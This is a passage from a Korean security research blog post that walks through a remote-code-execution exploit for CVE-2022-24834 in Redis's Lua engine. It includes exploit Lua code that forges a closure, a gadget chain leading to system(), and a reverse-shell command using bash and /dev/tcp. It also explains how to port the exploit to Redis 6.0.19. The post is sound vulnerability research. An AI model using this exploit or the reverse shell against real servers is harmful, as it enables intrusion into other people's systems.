   local ptr_ptr = (p64(gadget2) .. p64(system_addr))

   local cmd = "[CMD]"
   local arg1 = (
       cmd
       .. string.rep("\0", 56-#cmd)
       .. p64(addrof(ptr_ptr) + 0x18 - 0x10)
       .. p64(0)
    )

   local fake_function = (
      p64(addrof(arg1) + 0x18) -- 00h
      .. p64(0x010106)
      .. p64(0)
      .. p64(0)
      .. p64(gadget1)
      .. p64(0)
      .. p64(0)
      .. p64(0)
   )

   local fake_function = fakeobj(addrof(fake_function) + 0x18, 6)
   fake_function()
```

Lua에서는 함수 또한 하나의 오브젝트(`Closure`)로 다루고 이는 아래와 같이 정의되어 있습니다

```c
#define ClosureHeader \
        CommonHeader; lu_byte isC; lu_byte nupvalues; GCObject *gclist; \
        struct Table *env
typedef struct CClosure {
  ClosureHeader;
	//CommonHeader
	  //GCObject *next;
	  //lu_byte tt;
	  //lu_byte marked;
  //lu_byte isC;
  //lu_byte nupvalues
  //GCObject *gclist
  //struct Table *env
  
  lua_CFunction f;
  TValue upvalue[1];
} CClosure;

typedef struct LClosure {
  ClosureHeader;
  //CommonHeader
	//GCObject *next;
	  //lu_byte tt;
	  //lu_byte marked;
  //lu_byte isC;
  //lu_byte nupvalues
  //GCObject *gclist
  //struct Table *env
  
  struct Proto *p;
  UpVal *upvals[1];
} LClosure;

typedef union Closure {
  CClosure c;
  LClosure l;
} Closure;
```

`Closure` 오브젝트는 C built-in 함수를 호출하는 `CClosure`와 Lua 함수를 호출하는 `LClosure`의 공용체로 `ClosureHeader`의 `isC` 필드의 값에 따라 `CClosure`나 `LClosure`로 처리됩니다.

위 구조를 참고하여 정의된 `fake_function`의 구조를 분석하면 아래와 같습니다

```lua
-- gadget1 : mov rdi, qword ptr [rax] ; mov rax, qword ptr [rdi + 0x38] ; call qword ptr [rax + 0x10];
local fake_function = (
    p64(addrof(arg1) + 0x18) -- 00h
    .. p64(0x010106) -- tt:6(LUA_TFUNCTION), marked:1, isC:1
    .. p64(0)
    .. p64(0)
    .. p64(gadget1) -- lua_CFunction f:gadget1
    .. p64(0)
    .. p64(0)
    .. p64(0)
)
```

`fake_function`이 호출되면 `gadget1`이 실행될 것이고 이때 rax는 호출된 `CClosure` 오브젝트의 시작 주소를 가리킵니다.

따라서 `gadget1`에서 `mov rdi, qword ptr [rax];`가 실행되면 먼저 rdi에 `arg1`의 주소 + 0x18이 저장됩니다. Lua에서는 문자열을 관리하는 오브젝트로 아래와 같은 `TString` 구조체를 사용하고 문자열 데이터는 구조체 바로 다음에 저장되어 있습니다.

```c
typedef union TString {
  L_Umaxalign dummy;  /* ensures maximum alignment for strings */
  struct {
    CommonHeader;
    lu_byte reserved;
    unsigned int hash;
    size_t len;
  } tsv;
} TString;
```

그렇기에 rdi에는 `arg1`의 문자열인 `cmd .. string.rep("\0", 56-#cmd) .. p64(addrof(ptr_ptr) + 0x18 - 0x10) .. p64(0)`의 주소가 저장됩니다.

다음으로 `mov rax, qword ptr [rdi + 0x38];`이 실행되면서 rax에는 `ptr_ptr`의 주소 + 0x8이 저장됩니다.

`ptr_ptr`은 `gadget2`와 `system` 함수의 주소값으로 이루어진 문자열로 `arg1`과 마찬가지로 문자열을 이루는 데이터는 `ptr_ptr`의 주소 + 0x18부터 존재합니다. 이후 `call qword ptr [rax + 0x10]`이 실행됨에 따라 `addrof(ptr_ptr) + 0x18`에 저장된 `gadget2`가 호출됩니다.

`gadget2`에서는 `call qword ptr [rax + 0x18]`이 실행되고 `gadget1`에 의해 `ptr_ptr`의 주소 + 0x8을 가리키는 rax에 0x18을 더한 주소에는 `system` 함수의 주소가 저장되어 있기 때문에 최종적으로 아래와 같은 함수 호출이 발생합니다

```c
system("[CMD]")
```

실행할 명령어는 `local cmd = "[CMD]"`로 정의된 `cmd`에 의해서 정해지게 되는데 이 부분이 서버에 접속하고 Lua 스크립트를 실행하기 위해 사용하는 python 코드에서 리버스 쉘을 실행하는 `bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'`로 대체되면서 리버스 쉘을 획득할 수 있습니다.

## Remote Code Execution : Redis Version 6.0.19

Redis 6.0.19 버전에서도 위의 다른 두 버전과 같은 방식으로 RCE 익스플로잇이 가능하지만 동일한 Lua 스크립트를 사용하면 RCE가 이루어지지 않습니다. 그 이유는 익스플로잇에 사용된 오브젝트인 `Table`이 정의가 다르기 때문입니다.


위와 같이 Redis 6.0.19와 7.0.11의 `lobject.h`를 비교해보면 6.0.19 버전에서는 `Table` 구조체에 `int readonly` 필드가 존재하지 않는 것을 확인할 수 있습니다. 따라서 아래와 같이 임의 주소 읽기/쓰기를 달성하기 위해 덮어쓰는 `Table` 구조체의 `array`, `sizearray` 등의 필드의 오프셋이 기존보다 8만큼 감소합니다.

```c
typedef struct Table {
   -- CommonHeader
   GCObject *next; //0x0
   lu_byte tt;
   lu_byte marked;
   lu_byte flags;  /* 1<<p means tagmethod(p) is not present */
   //int readonly; 
   lu_byte lsizenode;  /* log2 of size of `node' array */
   struct Table *metatable; //0x10
   TValue *array;  /* array part */ // 0x18
   Node *node; //0x20
   Node *lastfree;  /* any free position is before this position */ //0x28
   GCObject *gclist; // 0x30
   int sizearray;  /* size of `array' array */ // 0x38
} Table;
```

따라서 이러한 오프셋의 변화를 기존 익스플로잇 코드에 반영해주면 6.0.19 버전에서도 똑같이 RCE가 가능합니다!!! 어떻게 수정했는지는 [이 코드](https://github.com/pwndorei/CVE-2022-24834/blob/master/exploit_6.0.19.lua)를 통해 확인하실 수 있습니다!

마지막으로 6.0.19 버전에서의 RCE 시연 영상을 보고 마치도록 하죠!

<iframe width="560" height="315" src="https://www.youtube.com/embed/TZwli5PnDrc?si=kvMEs2iudMAGtDnV" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

# Conclusion

javascript에 이어 Lua까지… 분명 유저모드 애플리케이션을 익스플로잇하는건데 커널 드라이버를 익스플로잇하는 것처럼 코드를 작성해서 뭔가 신선했습니다… 1바이트의 partial overwrite를 RCE로 발전시켜나가는 과정이 정말 흥미로웠고 다음에도 이런 취약점을 다시 분석해보고 싶네요

하지만 아마도 재밌게 느껴졌던 이유는 아래의 훌륭한 레퍼런스가 있었기 때문이라고 생각합니다 ㅋㅋㅋㅋㅋ 처음부터 익스플로잇 코드를 직접 작성한다고 치면 정말 아찔하네요….

무튼 이번에도 긴 글 읽어주셔서 감사하고 다음에 또 재미있는 연구글로 돌아오겠습니다!

# Reference

---

- [https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
- [https://github.com/convisolabs/CVE-2022-24834](https://github.com/convisolabs/CVE-2022-24834)
